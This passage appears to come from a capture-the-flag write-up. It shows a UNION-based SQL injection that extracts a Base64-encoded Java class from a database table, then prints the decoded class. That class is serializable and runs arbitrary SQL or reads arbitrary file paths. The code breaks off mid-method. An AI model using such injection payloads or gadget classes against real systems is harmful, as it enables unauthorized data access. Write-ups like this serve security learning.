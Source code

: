 Now get the `results` column: `union all select TO_BASE64(results) from satellite_query;`<br/>
Again decode Base64 and we have the Java file:

```java linenums="1" title="SatelliteQueryFileFolderUtility.java"
import java.io.Serializable;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
```